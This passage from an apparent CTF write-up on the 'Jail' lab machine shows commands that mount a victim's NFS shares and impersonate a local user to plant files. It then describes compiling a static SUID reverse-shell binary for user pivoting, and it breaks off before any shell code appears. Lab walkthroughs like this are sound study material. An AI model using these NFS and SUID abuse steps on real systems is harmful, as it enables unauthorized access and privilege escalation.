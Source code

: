 > **Attacker Machine**:

```bash
pushd /mnt
mkdir /mnt/{opt,var}
ls -l
# drwxr-xr-x root root 4.0 KB Sun May 25 18:25:49 2025 <U+F115> var        <-- Group: root

mount -t nfs 10.10.10.34:/opt /mnt/opt
mount -t nfs 10.10.10.34:/var/nfsshare /mnt/var
ls -l
# drwx-wx--x root al3j0   6 B  Mon Jul  3 23:33:56 2017 <U+F115> var       <-- Group: al3j0

cd /mnt/var
su al3j0
touch test
```

> **Victime Machine**:

```bash
ls -l /var/nfsshare
# Permission denied     :(
ls -l /var/nfsshare/test
# -rw-rw-r--. 1 frank frank 0 May 25 15:21 /var/nfsshare/test     Exist! frank (owner)
```

<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_47.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_48.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I have the possibility to upload files to a directory impersonating the user **frank**, I can **[compile a binary that allows me to obtain a Reverse Shell](https://github.com/izenynn/c-reverse-shell){:target="_blank"}**, but before uploading it I'm going to **[enable the SUID bit](https://unix.stackexchange.com/questions/703354/is-appropriate-to-use-setuid-over-setresuid-setreuid-seteuid){:target="_blank"}**, so that with the compromised user (**nobody**) I can execute it and it will attend the owner user to succeed in my goal of performing a **user pivoting**. Unfortunately in my first attempt I do not succeed because I must **[enable the static option](https://stackoverflow.com/questions/8692128/static-option-for-gcc){:target="_blank"}** when compiling the malicious binary and this way I get the **Reverse Shell**, access the first flag and move forward in the **engagement** of the machine.

> The **-static** option links a program statically, in other words it does not require a dependency on dynamic libraries at runtime in order to run.

> **Attacker Machine**:

```bash
nvim shell.c
cat shell.c
cat shell.c
```
